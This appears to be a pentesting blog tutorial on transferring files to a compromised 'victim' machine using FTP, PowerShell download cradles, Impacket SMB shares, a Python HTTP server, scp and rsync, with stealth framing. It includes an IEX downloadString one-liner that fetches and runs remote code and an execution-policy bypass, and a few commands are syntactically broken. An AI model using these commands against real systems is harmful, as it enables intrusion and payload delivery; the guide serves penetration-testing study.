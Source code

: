 +++
title = 'Pentester’s Guide to Performing File Transfers'
date = 2022-06-08
draft = false
showtoc=true
+++
![](https://cdn-images-1.medium.com/max/800/1*HNC0lT4gPMDU8uH0fyjRyw.png)

Foreword
========

To avoid detection, it is best to use tools that are native to the victim’s computer.

FTP with Windows Host
=====================

While having a shell on the Windows machine, start an FTP server on your host machine. Follow these steps if you don’t already have FTP server installed:


```
sudo apt-get install vsftpd  
sudo service vsftpd start  
service vsftpd status #status should be active
```
To check if your server is working, type `ftp localhost.` If you see the message “Connected to localhost”, your FTP server is running.

![](https://cdn-images-1.medium.com/max/800/1*ehYiaPXjraslOYhNqIv7Zw.png)
Accessing File With Interactive Shell
-------------------------------------

If you have an interactive shell on the Windows machine, run this command.


```
cscript wget.vbs http://<YOUR IP>/<PATH TO FILE> <FILENAME TO SAVE AS>
```
Accessing File With Non-Interactive Shell
-----------------------------------------

If you don’t have an interactive shell, you can’t start PowerShell.exe. A workaround is to create a PowerShell script and execute it:


```
echo $storageDir = $pwd > wget.ps1  
echo $webclient = New-Object System.Net.WebClient >>wget.ps1  
echo $url = "http://<YOUR IP>/<PATH TO FILE>" >>wget.ps1  
echo $file = "output-file.exe" >>wget.ps1  
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
To invoke`wget.ps1`, call


```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

```
-ExecutionPolicy Bypass -noLogo -NonInteractive --- stealthly
```

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<YOUR IP>/<FILENAME>')"
```

```
IEX(New-Object Net.WebClient).downloadString('http://<YOUR IP>/<FILENAME>')
```
![](https://cdn-images-1.medium.com/max/800/1*nBHrLvu-D9RNlMsbTG3Wsg.jpeg)
Getting Files Through PowerShell
================================

On your Kali Linux machine, make a copy of the file you want to send to `/var/www/html/` . On the Window’s machine, execute the following:


```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.10.128/unko.txt','C:\Users\Administrator\Desktop\transferme.txt')"
```

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.119.146/gori.ps1')"
```
File Transfer With SMB
======================

Method 1
--------

Get `smbserver.py`from [Impacket](https://github.com/SecureAuthCorp/impacket) and run the following on your Kali Linux machine:


```
smbserver.py gori $(pwd) -smb2support -user gori -pass gorigori
```
Run this on the victim’s machine:


```
New-PSDrive -Name "gori" -PSProvider "FileSystem" -gori "\\<YOUR IP>\gori"
```
Method 2
--------

Run this on your Kali machine:


```
smbserver.py kali .
```
Run this on the victim’s machine:


```
On victim's \\<YOUR IP ADDRESS>\kali\FILE\_NAME.exe "whoami" # "whoami" confirms that it is running
```
![](https://cdn-images-1.medium.com/max/800/1*i6K6JFM5TTxSFf4b_ermuQ.png)
File Transfer With an HTTP Server
=================================

On your machine run:


```
python3 -m http.server 80
```
This will start an HTTP server on port 80 with the root of the HTTP server being in the directory that you executed the command from. To get a file, run this on the victim’s machine:


```
wget http://<YOUR IP>/path/to/file.txt
```
File Transfer with SCP and RSYNC
================================

Both of these methods of file transfer occur over SSH. Secure Copy Protocol (SCP) is being deprecated, however, if you’re able to use it, the syntax is fairly simple.


```
scp <SOURCE> <DESTINATION>
```
In this example, we are using SCP to copy a file from a remote host to the working directory of our local machine such that our computer is on the receiving end.


```
scp username@ip_address:/home/username/filename
```
If you are looking to transfer a file from your computer to the remote host, the following syntax can be used:


```
scp filename username@ip_address:/home/username
```
The same commands can be used with RYSNC by simply replacing `scp` with `rsync` .


```
rsync <SOURCE> <DESTINATION>
```
Conclusion
==========

There are countless ways to transfer files between two computers. Among the most common methods are HTTP and FTP, but if those don’t work, there is a chance that some of the other options here will. Some honorable mentions that I didn’t go into detail on are SSHFS, SFTP, Winscp, and Samba. I hope that you were able to find value in this article and remember to never stop learning.
